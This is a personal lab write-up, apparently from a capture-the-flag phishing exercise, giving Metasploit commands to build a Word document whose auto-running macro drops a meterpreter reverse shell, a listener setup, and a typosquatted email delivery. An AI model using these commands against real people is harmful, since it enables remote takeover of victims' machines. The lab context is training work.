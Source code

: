 ```yaml
---
title: Post 70 - Quick, don't think, just act!
date: 2024-12-18
tags:
    - phishing
    - metasploit
    - meterpreter
---
```

## Task 16, Day 10 `Phishing` He had a brain full of macros, and had shells in his soul.

### Phishing Attacks
Usually has the purpose of stealing personal information or install malware by having the target fill out a form, open a file, or click a link. 

### Creating the Attack
To-Dos:  
  - Create a document with an embedded malicious macro
  - Listen for incoming connects

#### Creating the Malicious Document
Can either create a document and embed a malicious macro or use Metasploit Framework to create the document. This guide is using Metasploit:  
  - Terminal window and run `msfconsole`
  - `set payload windows/meterpreter/reverse_tcp`
  - `use exploit/multi/fileformat/office_word_macro` though technically not an exploit. 
  - `set LHOST <ip_address>`
  - `set LPORT 8888`
  - `show options` to see the configuration options and make sure everything is correct
  - `exploit` to generate the macro and embed it in a document
  - `exit`  

#### How the Macro Works
  1. `AutoOpen()` triggeres the macro automatically when the doc is opened. It then searches the properties of the document for the payload which is stored in the comments field, encoded in base64.
  2. `Base64Decode()` converts the payload to it's original form, a Windows executable.
  3. `ExecuteForWindows()` executes the payload in a temprary directory, connecting back to the attacker's system IP and port specified.  

Interesting notes:
  - Can see the payload in the document properties under File > Info in Word, and I assume right-click > Properties in Explorer.
  - Can copy the comments to a text file and use `base64 -d payload-base64.txt > payload.exe` then `ls -lh` to view file sizes as text and executable.
  - Can use Virus Total to process the executable and get information about what the executable does.  

#### Listening for Incoming Connections
Can use MSF to listen to connections coming from our executable. Need to test to see if netcat can also be used to receive connections.  

  - `msfconsole`
  - `use multi/handler` to handle incoming connections
  - `set payload windows/meterpreter/reverse_tcp` to ensure payload works with the payload created earlier
  - `set LHOST <ip_address>` to match the IP used in the earlier payload
  - `set LPORT 8888` to match earlier
  - `show options` to confirm options
  - `exploit` to start listening  

#### Email the Malicious Document
In this example, the attacker is using email from the `socnas.thm` domain sending to the target on the `socmas.thm` domain. This technique is called "typosquatting," where the malicious domain name is nearly identical to the legitimate one. Exercise is setup so a vm opens the document upon receipt, so not long after hitting send Meterpreter lights up.  

**Bonus Note** - In linux, use CTRL+H to view hidden directories.  

### The Task
Use the reverse shell to find the flag.

### Recommended Stuff
The Phishing module.

